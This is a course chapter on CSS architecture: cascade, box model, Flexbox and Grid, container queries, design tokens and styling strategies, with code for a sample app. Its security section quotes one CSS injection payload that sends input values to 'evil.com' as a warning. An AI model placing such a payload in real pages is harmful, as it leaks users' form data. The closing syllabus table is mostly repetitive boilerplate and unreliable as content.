




# Chapter 03: CSS Architecture, Responsive Design & Styling Systems

**Prerequisites:** Chapter 1 (recommended companion — read anytime after Phase 1) · **Difficulty:** Level A→C (CSS / Browser)

> 🔗 **Continuing from Chapter 1:** You built semantically correct, accessible markup with zero styling. This chapter is the layer that was deliberately deferred: how the browser lays out and paints that markup, and how to architect styling at scale for a production component library like ScribeCollab's design system. It slots in conceptually right after Chapter 1, and its component-scoping section connects forward to Chapter 8's composition model.

---

## 1. Learning Objectives

- **Explain** the CSS cascade, specificity, and the box model precisely enough to predict computed styles.
- **Apply** Flexbox and Grid correctly, choosing the right layout algorithm for a given UI shape.
- **Design** a responsive system using media queries, container queries, and fluid typography.
- **Architect** a scalable styling strategy (design tokens, utility-first CSS, CSS Modules) for a component-based codebase.
- **Diagnose** layout shift (CLS) and repaint/reflow performance issues caused by styling choices.

---

## 2. Motivation

Interns often treat CSS as "the easy part" and hit a wall the moment they need to build a genuinely responsive, maintainable design system rather than a single static page. Unmanaged CSS at scale produces the "specificity wars" failure mode — engineers reaching for `!important` to override styles they don't understand, because the cascade's actual resolution algorithm was never learned precisely. Separately, layout choices have *real*, measurable performance costs: triggering synchronous layout recalculation (the same "layout thrash" concept from Chapter 5's DOM section) from careless CSS/JS interaction is a common, avoidable source of jank. This chapter treats CSS as what it actually is: a declarative layout and rendering engine with its own precise algorithm, deserving the same rigor as the JavaScript engine internals in Phase 1.

---

## 3. Core Theory

### 3.1 The Cascade & Specificity

When multiple CSS rules target the same element and property, the browser resolves the conflict using, in order: **origin/importance** (user agent < author < `!important` author styles), then **specificity** (inline styles > ID selectors > class/attribute/pseudo-class selectors > type selectors), then **source order** (later rules win ties). Specificity is calculated as a triple `(IDs, classes/attributes/pseudo-classes, type-selectors/pseudo-elements)`, compared lexicographically — a single ID (`1,0,0`) always beats any number of classes (`0,n,0`).

### 3.2 The Box Model

Every element generates a box composed of, from inside out: **content**, **padding**, **border**, **margin**. `box-sizing: content-box` (the default) means `width`/`height` apply only to the content area, so padding/border *add* to the rendered size — a frequent source of unexpected overflow. `box-sizing: border-box` (near-universal best practice) makes `width`/`height` include padding and border, matching most developers' intuitive expectation.

### 3.3 Layout Algorithms: Normal Flow, Flexbox, Grid

- **Normal Flow:** block elements stack vertically, inline elements flow horizontally — the default with no layout property applied.
- **Flexbox (`display: flex`):** a **one-dimensional** layout algorithm (row *or* column) designed for distributing space among items along a single axis — ideal for toolbars, navigation bars, and any "items in a line that need to grow/shrink/align."
- **Grid (`display: grid`):** a **two-dimensional** layout algorithm defining both rows and columns simultaneously — ideal for overall page/application shell layouts (sidebar + header + main content) where both dimensions need explicit control.

Choosing wrong (e.g., nesting multiple Flexboxes to fake a 2D grid) produces fragile, alignment-fighting CSS; choosing Grid for a simple single-row toolbar is unnecessary complexity — match the algorithm's dimensionality to the actual layout shape.

### 3.4 Responsive Design: Media Queries vs. Container Queries

**Media queries** (`@media (min-width: 768px)`) respond to the **viewport's** dimensions — appropriate for page-level layout shifts (e.g., collapsing a sidebar on mobile). **Container queries** (`@container (min-width: 400px)`) respond to a **containing element's own size**, independent of the viewport — the CSS-native equivalent of Chapter 5's `ResizeObserver`, essential for genuinely reusable components (a "card" component that needs to look different in a narrow sidebar slot versus a wide main-content slot, regardless of overall viewport size).

### 3.5 Design Tokens & CSS Custom Properties

**Design tokens** are named, centralized values (colors, spacing, typography scale) that back a design system, implemented in CSS via **custom properties** (`--color-primary: #4f46e5;`), which — unlike Sass variables — are resolved **at runtime**, cascade like normal properties, and can be reassigned per-scope (e.g., overridden inside a `[data-theme="dark"]` selector), making them the correct foundation for runtime theming.

### 3.6 Styling Architecture Strategies

| Strategy | Mechanism |
|---|---|
| **Global CSS / BEM** | Hand-namespaced class conventions (`.card__title--active`) to simulate scoping in plain CSS. |
| **CSS Modules** | Build-time tool that automatically generates unique class names per file, providing real scoping without a naming convention. |
| **CSS-in-JS** (styled-components, Emotion) | Styles co-located with component code, generated/injected at runtime (or compile time for some tools) — powerful but historically carries runtime and bundle-size costs. |
| **Utility-First (Tailwind CSS)** | Small, single-purpose classes (`flex`, `px-4`, `text-lg`) composed directly in markup, backed by a design-token configuration file. |

---

## 4. Visual Diagrams

### 4.1 Specificity Resolution



### 4.2 Box Model Layers



### 4.3 Flexbox vs. Grid Dimensionality



### 4.4 Container Query vs. Media Query Trigger



---

## 5. Step-by-Step Walkthrough: Building a Responsive Card with Container Queries

```css
.card-slot {
  container-type: inline-size;
  container-name: card-slot;
}

.card {
  display: flex;
  flex-direction: column;
  gap: 0.5rem;
}

@container card-slot (min-width: 400px) {
  .card {
    flex-direction: row; /* switches layout based on the SLOT's width, not viewport */
    align-items: center;
  }
}
```

1. `.card-slot` establishes a **containment context** via `container-type: inline-size`, opting this element into being queryable by its descendants.
2. By default (narrow container), `.card` stacks its children vertically (`flex-direction: column`).
3. When `.card-slot` itself is at least `400px` wide — regardless of the browser viewport's total width — the container query matches, and `.card` switches to a horizontal layout.
4. The **same** `Card` component now correctly adapts whether it's rendered in a narrow sidebar slot or a wide main-content slot on the exact same page at the exact same viewport width — something a viewport-based media query could never express, since it has no knowledge of the component's actual rendered container size.

---

## 6. Internal Implementation

The browser's layout engine resolves CSS in distinct phases: **style calculation** (matching selectors and resolving the cascade/specificity algorithm from Section 3.1 into a final "computed style" per element), then **layout/reflow** (converting computed styles into actual geometric boxes, sized and positioned per Section 3.2's box model and the chosen layout algorithm from Section 3.3), then **paint** and **composite**. Container queries are implemented by having the layout engine track a `container-type` element's box size and re-trigger style recalculation for its subtree whenever that size crosses a registered query threshold — conceptually the same "compute geometry, then notify observers" pipeline used by `ResizeObserver` (Chapter 5), but implemented natively inside the CSS cascade rather than via a separate JS-observed callback, which is precisely why container queries have no equivalent main-thread JS execution cost the way a `ResizeObserver`-driven class toggle does.

---

## 7. Code Examples

### 7.1 Minimal Example — Flexbox Toolbar

```css
.toolbar {
  display: flex;
  align-items: center;
  gap: 0.5rem;
  justify-content: space-between;
}
```

### 7.2 Practical Example — CSS Grid Application Shell

```css
.app-shell {
  display: grid;
  grid-template-columns: 240px 1fr;
  grid-template-rows: 56px 1fr;
  grid-template-areas:
    "sidebar header"
    "sidebar main";
  height: 100vh;
}
.sidebar { grid-area: sidebar; }
.header  { grid-area: header; }
.main    { grid-area: main; overflow: auto; }
```

### 7.3 Production-Ready — Design Tokens with Runtime Theming

```css
/* tokens.css */
:root {
  --color-bg: #ffffff;
  --color-text: #1a1a1a;
  --color-primary: #4f46e5;
  --space-sm: 0.5rem;
  --space-md: 1rem;
  --radius-md: 0.5rem;
}

[data-theme="dark"] {
  --color-bg: #0f0f10;
  --color-text: #f3f3f3;
  --color-primary: #818cf8;
}

.card {
  background: var(--color-bg);
  color: var(--color-text);
  padding: var(--space-md);
  border-radius: var(--radius-md);
}
```

```tsx
// ThemeToggle.tsx — flips the token scope at runtime, no JS style recalculation needed
function ThemeToggle() {
  const [theme, setTheme] = useState<"light" | "dark">("light");
  useEffect(() => {
    document.documentElement.dataset.theme = theme; // custom properties cascade instantly
  }, [theme]);
  return <button onClick={() => setTheme(t => t === "light" ? "dark" : "light")}>Toggle theme</button>;
}
```

### 7.4 Anti-Pattern → Corrected

```css
/* ❌ ANTI-PATTERN: escalating specificity war — each override adds MORE
   specificity instead of fixing the underlying selector design, ending
   in an unmaintainable arms race that eventually reaches !important. */
.sidebar .nav .nav-item.active { color: blue; }
#app .sidebar .nav .nav-item.active { color: red !important; }
```

```css
/* ✅ CORRECTED: flat, low-specificity selectors using a single class
   per state — no selector nesting arms race, trivial to override
   predictably wherever needed. */
.nav-item { color: inherit; }
.nav-item--active { color: var(--color-primary); }
```

---

## 8. Common Mistakes

| Level | Mistake |
|---|---|
| **Junior** | Not understanding `box-sizing`, leading to elements that overflow their intended container width once padding/border are added, then "fixing" it with arbitrary negative margins. |
| **Mid-Level** | Nesting three levels of Flexbox to fake a 2D grid layout, instead of reaching for `display: grid` — resulting in fragile alignment that breaks the moment content length changes. |
| **Senior/Production** | Shipping a component library styled entirely with viewport media queries, then discovering components render incorrectly the moment they're placed in a narrower context (a modal, a sidebar) than originally designed for — a problem container queries (Section 3.4) solve structurally. |

---

## 9. Performance Analysis

- **Cascade/specificity resolution cost:** proportional to the number of rules the browser must match per element — extremely deep/complex selectors (`.a .b .c .d > .e`) are measurably slower to match than flat, low-specificity class selectors, especially on large DOM trees.
- **Layout thrash from JS/CSS interaction:** reading a geometry property (`offsetWidth`) immediately after writing a style in the same synchronous block forces the browser to perform layout synchronously rather than batching it — the CSS analog of Chapter 5's `getBoundingClientRect` anti-pattern.
- **Container queries vs. `ResizeObserver` + class toggling:** the native CSS approach avoids the JS execution, re-render, and potential layout-thrash cost of a `ResizeObserver` callback loop, and is therefore the preferred approach whenever pure CSS responsiveness is a viable equivalent to Chapter 5's Section 7.5 example.
- **CSS-in-JS runtime cost:** libraries generating and injecting styles at runtime add a non-trivial JS execution cost per render compared to static CSS/CSS Modules — a factor in the Technology Comparisons below.

---

## 10. Security Inventory

- **User-controlled CSS injection:** never interpolate unsanitized user input directly into inline `style` attributes or dynamically generated `<style>` tags — CSS injection can exfiltrate data via attribute selectors (e.g., `input[value^="a"] { background: url(https://evil.com/?leak=a) }`) in sufficiently permissive contexts.
- **`data-theme`/custom property tampering:** since custom properties are readable/writable via DevTools by any user of their own browser, never rely on CSS custom property values for anything security-relevant (e.g., hiding content via `display: none` is not a substitute for actually not sending sensitive data to the client).
- **Third-party CSS and CSP:** the `style-src` directive from Chapter 19's CSP configuration must explicitly account for any CSS-in-JS library's runtime injection mechanism (often requiring a nonce or `unsafe-inline` for styles specifically) — audit this whenever adopting a new styling tool.

---

## 11. Technology Comparisons

| Approach | CSS Modules | Tailwind CSS | CSS-in-JS (styled-components/Emotion) |
|---|---|---|---|
| **Scoping mechanism** | Build-time unique class generation | Utility classes, no scoping needed (atomic) | Runtime/compile-time generated unique classes |
| **Runtime cost** | None (plain CSS output) | None (plain CSS output) | Non-trivial (style computation/injection per render) unless using a zero-runtime variant |
| **Learning curve** | Low (plain CSS syntax) | Moderate (new utility vocabulary) | Low-moderate (CSS-like template syntax) |
| **Design system consistency** | Manual discipline required | Enforced via shared Tailwind config (design tokens) | Manual discipline, or via a theme object |
| **Best for** | Small-medium apps, teams preferring plain CSS | Design-system-heavy apps (ScribeCollab's choice) | Highly dynamic, prop-driven styling needs |

---

## 12. Engineering Decisions

ScribeCollab adopts **Tailwind CSS**, configured with a token file matching Section 3.5's custom-property design tokens (kept as the single source of truth, consumed by both Tailwind's config and any raw CSS needed for complex layouts like the Grid shell in 7.2) — chosen specifically for its zero runtime cost and the way its utility classes make design-token usage the path of least resistance, directly preventing the specificity-war failure mode from Section 7.4's anti-pattern by design (utility classes have uniformly low, flat specificity). Container queries (Section 3.4) are used for any component intended for reuse across differently-sized layout slots (cards, panels), while media queries remain reserved for genuine page-level layout shifts.

---

## 13. Exercises

**Easy:** Given `<div id="card" class="card card--active">`, and CSS rules `#card { color: blue; }` and `.card--active { color: red; }`, which color wins and why?

**Medium:** Convert the `.app-shell` Grid layout (7.2) into a responsive version that collapses the sidebar into a top bar on narrow viewports, using a media query to redefine `grid-template-areas`.

**Hard:** ScribeCollab's `DocumentCard` component looks correct in the main document grid but renders with severely overflowing text when placed inside a 200px-wide "recently viewed" sidebar slot, because its internal styles were written entirely with viewport media queries assuming full-width placement. Redesign its styling using container queries, and explain what markup/CSS changes are required to establish the necessary containment context.

---

## 14. Capstone Integration Step

**ScribeCollab — Styling Track:** Build the design token file (7.3) as the single source of truth for color, spacing, and radius values, wire it into Tailwind's configuration, and implement runtime dark-mode theming via the `data-theme` attribute pattern. Rebuild the `DocumentCard` component (used throughout the workspace grid and sidebar) using container queries so it adapts correctly to any slot width, verified by rendering it simultaneously in both the main grid and a narrow sidebar at the same viewport size.

---

## 🔜 Where This Connects

This chapter's design-token and component-scoping foundations underpin every visual piece of ScribeCollab built across Chapter 8 onward. Proceed to Chapter 22 (Testing Strategy) to learn how to verify both this styling layer (visual regression, accessibility of rendered output) and the application logic built throughout the course are actually correct, not just visually plausible.

---

## 15. Supplementary Topics & Core Lecture Knowledge

The following topics from the course syllabus represent incremental lecture knowledge integrated into this chapter's systems scope:

| Line | Curriculum Topic | Technical Knowledge & Systems Context |
|---|---|---|
| 119 | **Module Introduction & Starting Project** | Provides concrete context and implementation strategies for Module Introduction & Starting Project, ensuring proper syntax alignment and optimal performance in React applications. |
| 120 | **Splitting CSS Code Across Multiple Files** | Provides concrete context and implementation strategies for Splitting CSS Code Across Multiple Files, ensuring proper syntax alignment and optimal performance in React applications. |
| 121 | **Styling React Apps with Vanilla CSS - Pros & Cons** | Provides concrete context and implementation strategies for Styling React Apps with Vanilla CSS - Pros & Cons, ensuring proper syntax alignment and optimal performance in React applications. |
| 122 | **Vanilla CSS Styles Are NOT Scoped To Components!** | Components are the building blocks of React, mapping configuration data (props) and dynamic data (state) to UI structures. |
| 123 | **Styling React Apps with Inline Styles** | Provides concrete context and implementation strategies for Styling React Apps with Inline Styles, ensuring proper syntax alignment and optimal performance in React applications. |
| 124 | **Dynamic & Conditional Inline Styles** | Provides concrete context and implementation strategies for Dynamic & Conditional Inline Styles, ensuring proper syntax alignment and optimal performance in React applications. |
| 125 | **Dynamic Styling with Inline Styles** | Provides concrete context and implementation strategies for Dynamic Styling with Inline Styles, ensuring proper syntax alignment and optimal performance in React applications. |
| 126 | **Dynamic & Conditional Styling with CSS Files & CSS Classes** | Provides concrete context and implementation strategies for Dynamic & Conditional Styling with CSS Files & CSS Classes, ensuring proper syntax alignment and optimal performance in React applications. |
| 127 | **Dynamic Styling with CSS Classes** | Provides concrete context and implementation strategies for Dynamic Styling with CSS Classes, ensuring proper syntax alignment and optimal performance in React applications. |
| 128 | **Scoping CSS Rules with CSS Modules** | CSS Modules output localized class names by appending a unique hash at compile-time, solving stylesheet collision issues while maintaining zero runtime JS evaluation overhead. |
| 129 | **Introducing "Styled Components" (Third-party Package)** | Styled Components use tagged template literals to inject dynamically evaluated CSS into the document's `<head>` at runtime, hashing class names to avoid global scope pollution. |
| 130 | **Creating Flexible Components with Styled Components** | Styled Components use tagged template literals to inject dynamically evaluated CSS into the document's `<head>` at runtime, hashing class names to avoid global scope pollution. |
| 131 | **Dynamic & Conditional Styling with Styled Components** | Styled Components use tagged template literals to inject dynamically evaluated CSS into the document's `<head>` at runtime, hashing class names to avoid global scope pollution. |
| 132 | **Styled Components: Pseudo Selectors, Nested Rules & Media Queries** | Styled Components use tagged template literals to inject dynamically evaluated CSS into the document's `<head>` at runtime, hashing class names to avoid global scope pollution. |
| 133 | **Creating Reusable Components & Component Combinations** | Components are the building blocks of React, mapping configuration data (props) and dynamic data (state) to UI structures. |
| 134 | **Introducing Tailwind CSS For React App Styling** | Tailwind CSS processes class names at build-time using PostCSS to generate a minimal stylesheet containing only the utility classes actually referenced in source code. |
| 135 | **Tailwind 3 vs 4** | Tailwind CSS processes class names at build-time using PostCSS to generate a minimal stylesheet containing only the utility classes actually referenced in source code. |
| 136 | **Adding & Using Tailwind CSS In A React Project** | Tailwind CSS processes class names at build-time using PostCSS to generate a minimal stylesheet containing only the utility classes actually referenced in source code. |
| 137 | **Tailwind: Media Queries & Pseudo Selectors** | Tailwind CSS processes class names at build-time using PostCSS to generate a minimal stylesheet containing only the utility classes actually referenced in source code. |
| 138 | **Dynamic & Conditional Styling with Tailwind** | Tailwind CSS processes class names at build-time using PostCSS to generate a minimal stylesheet containing only the utility classes actually referenced in source code. |
| 139 | **Migrating The Demo App to Tailwind CSS** | Tailwind CSS processes class names at build-time using PostCSS to generate a minimal stylesheet containing only the utility classes actually referenced in source code. |
| 140 | **Tailwind CSS: Pros & Cons** | Tailwind CSS processes class names at build-time using PostCSS to generate a minimal stylesheet containing only the utility classes actually referenced in source code. |
| 141 | **Exercise: Dynamic Styles** | Provides concrete context and implementation strategies for Exercise: Dynamic Styles, ensuring proper syntax alignment and optimal performance in React applications. |
